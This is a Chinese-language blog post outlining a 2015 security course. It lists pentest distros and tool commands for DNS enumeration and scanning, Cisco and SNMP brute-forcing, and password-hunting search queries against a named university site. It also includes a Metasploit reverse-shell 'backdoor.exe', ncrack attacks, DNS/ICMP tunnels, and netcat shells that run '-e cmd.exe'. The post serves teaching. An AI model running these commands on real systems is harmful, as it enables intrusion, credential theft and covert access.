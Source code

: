 ```yaml
---
author: wangguohao
comments: true
date: 2015-01-01 12:23:00+00:00
layout: post
title: 安全课程的备课
---
```


The first course will end with a video，准备最后一段课程的视频的录制，课程的设计的思路是：借助一下主流的工具，来介绍一下常见的网络安全的比较感性的原理（对细微本身讲的较少）。大体课程内容设计如下：


### Linux安全测试发行版介绍：


BackTrack:(Although the project was update to kali, many people also like using BT)
Probably the most widely known pen-test distro out there and one of the oldest distro still being actively developed. There is a thumb-drive and Live DVD version, plus the ability to do a full install in your hard-drive. The distribution is based on Ubuntu with custom packages that gets updated on a regular basis.

kali：
From the creators of BackTrack comes Kali Linux, the most advanced and versatile penetration testing distribution ever created. We have a whole set of amazing features lined up in our security distribution, geared at streamlining the penetration testing experience.

Backbox Linux:
Another Ubuntu based distro but uses XFCE as its window manager and relies on its own repo to constantly keep its tools updated.

Pentoo:
A livecd based on Gentoo and XFCE. Also available as an overlay for existing Gentoo installations. Has the ability to crack passwords using GPGPU out of the box.

目的是介绍主要的工具集。


### 踩点技术


传统的本地dns探测工具，多数依赖于字典文件：

    dnsenum.pl -f dns_list.txt --dnserver 8.8.8.8 cisco.com -o cisco.list

    dnsmap cisco.com -w wordlist.txt -c cisco.csv

路由信息收集工具，一个传统的udp实现，一个现代一点的利用tcp实现，可以穿越防火墙。

    paratrace,一种新的、隐形的 traceroute,可使用有状态的过滤器。
    traceroute:传统的工具
    tcptraceroute ：稍微新一点，利用tcp的工具。

搜索引擎的技巧

    http://en.wikipedia.org/wiki/Google_hacking
    filetype:xls site:jlxy.nju.edu.cn
    密码 site:jlxy.nju.edu.cn
    密码 site:jlxy.nju.edu.cn filetype:doc
    site:jlxy.nju.edu.cn intext:admin

自动化，综合的信息收集平台maltego

    1：domain
    2：dns
    3：whois information
    4：network block
    5：ip address
    6：E-mail


### 扫描技术

发现主机

    arping -c 2 192.168.1.1

    fping -s -r 1 192.168.1.1 192.168.1.254

    hping3 -c 2 192.168.1.1

    #hping3
    hping>hping send {ip(addr=192.168.1.1)+icmp(type=8,code=0)}

    nbtscan 192.168.1.1-254

操作系统指纹识别

    主动：nmap -O

    被动：p0f

端口扫描

    autoscan

    netifera

    scanrand:一个非常快速、无状态的 TCP 端口扫描器和 traceroute 工具

服务探测

    cd /pentest/enumeration/www/httprint/linux/
    httprint -h 192.168.1.1 -s singnature.txt

VPN探测

    ike-scan -M -v 192.168.1.1

    sslscan 192.168.1.1

### 漏洞发现


Cisco tools

cisco auditing tool


    ./CAT -h 192.182.1.1 -w lists/community -a lists/passwords -I


Cisco passwd scanner


    ./cisco 10.10.10 3 -t 4 -C 10


Snmp tools


    cd /pentest/enumeration/snmp/admsnmp
    ./ADMsnmp 192.168.1.1 -wordf wordlist.list


如果你知道snmp的community， 你可以使用这个工具收集信息。


    cd  /pentest/enumeration/snmp/snmpenum/
    ./snmpenum 192.168.1.1 private windows.txt


针对web的安全工具
Burp suite

Nikto


    ./nikto.pl -h 192.168.1.1 -C -p 80 T3487b -t 3 -D \V  -o webtest -F htm


W3af

这个waf的探测工具：WAFW00F


    cd /pentest/web/waffit/
    ./wafw00f http://....


介绍两个成熟的框架：openvas，nessus


### 集成化的工具包
MSF

    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4444 X > backdoor.exe

    msfconsole
    use exploit/multi/hander
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LPORT 192.168.1.150
    set LHOST 4444


### 局域网安全


####Layer 2:

    CDP(cisco discovery protocols)
    mac flood

####Layer 3:
dhcp
tcp syn flood

结合一点点嗅探技术：

    dsniff 包由 Dug Song 编写,已经发布几年了,是一组强大的网络审核工具。其中有一个简洁的小工具 arpspoof,可用于向 ARP 缓存注入虚假信息。该工具可以创建 Gratuitous ARP 应答,应答数据包中的源 IP 是用户打算伪装的 IP 地址,而目标 IP 则是所要嗅探的目标计算机。


### 密码破解


####在线的：以破解cisco的路由器，和html表单的例子。

    ncrack -U pass -v -P pass telnet://192.168.1.1
    ncrack -U pass -v -P pass http://192.168.1.1

####Web 表单

####离线的：无线的密码破解是离线的


### 维持访问
基本都是两台主机，其中一台替另一台通过某些服务对流量进行封装中继。

####Dns 隧道

Server:dns2tcpd

    ./dns2tcpd -F -d 1 -f dns2tcpd.conf

Client:

    ./dns2tcpc  -z  domain.org


配置文件：

    Domain=domain.org
    Rescoure = ssh
    Local_port = 2222
    Debug = 1


####icmp 隧道
Server:

    ./ptunnel

Client:

    ./ptunnel -p tun.ser_ip -lp 2222 -da ture.ip  -dp 22

####代理服务器
netcat
Windows:

    nc.exe -d -L -p 1234 -e cmd.exe

Remote:

    nc -l -p 1234

locale:

    nc -d remore port -e cmd.exe

Nc realy:（利用脚本实现），就是一种重定向，指定的数据流转发，还可以把传输的信息dump一次。

    #/bin/bash
    nc -o output.file ip_addr port

    nc -l -p 23 -e script.sh
